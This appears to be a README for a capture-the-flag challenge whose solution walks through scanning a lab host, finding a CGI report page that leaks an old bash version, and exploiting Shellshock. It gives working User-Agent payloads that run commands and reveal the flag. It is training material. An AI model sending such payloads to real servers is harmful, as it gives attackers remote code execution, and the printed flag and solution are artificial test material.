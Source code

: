 # Shockwave Report

This challenge deploys a machine vulnerable to shellshock. 

### Task

A user must find HTTP endpoint that reports various system information via cgi-script including a bash version, discover
that the bash version is vulnerable to shellshock and exploit the script to pwn the system.



## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. The task reveals IP address `172.20.0.39`. Let's nmap it:
```bash
root@hackerlab:~# nmap -n -v 172.20.0.39
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 07:18 UTC
Initiating ARP Ping Scan at 07:18
Scanning 172.20.0.39 [1 port]
Completed ARP Ping Scan at 07:18, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 07:18
Scanning 172.20.0.39 [1000 ports]
Discovered open port 80/tcp on 172.20.0.39
Completed SYN Stealth Scan at 07:18, 0.05s elapsed (1000 total ports)
Nmap scan report for 172.20.0.39
Host is up (0.0000070s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:14:00:27 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.032KB)
```

It can be also scanned with version, and it will reveal `80/tcp open  http    Apache httpd 2.4.62 ((Unix))`. However, the vulnerability to exploit is not related to this version of Apache.

2. We find HTTP port 80. In the hints of the challenge it says it is a 'reporting' service.

   So it is possible to try to get `curl http://172.20.0.39/reporting` but it will give Not Found.

   Or also curl `http://172.20.0.39/report`, which should give a webpage.
   
```bash
root@hackerlab:~# curl 172.20.0.39
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>


root@hackerlab:~# curl 172.20.0.39/index.html
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="refresh" />
    <title>Redirecting...</title>
</head>
<body>
    <p>If you are not redirected, <a href="/report">click here</a>.</p>
</body>
</html>


root@hackerlab:~# curl 172.20.0.39/report    
<html><body>
<h1>System Information Report</h1>
<p><strong>Server Uptime:</strong>  07:19:28 up 31 min,  0 user,  load average: 1.01, 1.65, 1.45</p>
<p><strong>Disk Usage:</strong></p>
<pre>Filesystem                     Size  Used Avail Use% Mounted on
overlay                        914G  347G  522G  40% /
tmpfs                           64M     0   64M   0% /dev
shm                             64M     0   64M   0% /dev/shm
/dev/mapper/whatever--vg-root  914G  347G  522G  40% /etc/hosts
tmpfs                           16G     0   16G   0% /proc/asound
tmpfs                           16G     0   16G   0% /proc/acpi
tmpfs                           16G     0   16G   0% /sys/firmware
tmpfs                           16G     0   16G   0% /sys/devices/virtual/powercap</pre>
<p><strong>Memory Usage:</strong></p>
<pre>               total        used        free      shared  buff/cache   available
Mem:           31831        6686       17877         700        8426       25144
Swap:            975           0         975</pre>
<p><strong>Currently Logged In Users:</strong></p>
<pre></pre>
<p><strong>Top 5 Processes by CPU Usage:</strong></p>
<pre>    PID    PPID CMD                         %MEM %CPU
      1       0 httpd -DFOREGROUND           0.0  0.0
     64       1 httpd -DFOREGROUND           0.0  0.0
      8       1 httpd -DFOREGROUND           0.0  0.0
     36       1 httpd -DFOREGROUND           0.0  0.0
    109      64 /bin/bash /usr/local/apache  0.0  0.0</pre>
<p><strong>Network Configuration:</strong></p>
<pre></pre>
<!-- Debug Info: Bash Version: GNU bash, version 4.2.37(1)-release (x86_64-pc-linux-gnu) -->
<p><strong>Diagnostic Mode Disabled:</strong> Enable diagnostics by setting DEBUG=true in the environment.</p>
</body></html>
```
3. Among other information, the user should notice leaked bash version `GNU bash, version 4.2.37`. Google reveals that this
bash version is vulnerable to shellshock. Shellshock PoC can be then found online and used for RCE to find a flag.
```bash
root@hackerlab:~# curl -s -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/ls" 172.20.0.39/report 
printenv
printenv.vbs
printenv.wsf
report
test-cgi
root@hackerlab:~# curl -s -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat report" 172.20.0.39/report 
#!/bin/bash

# oh no, you found me :(
# BSY{cIAXNcTzjPEkH5nZU1LV6uPrSIvHpGPEoApUQXfkyftsZOmnsUokQeUfDmEW}

echo "Content-type: text/html"
echo
...
```





</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
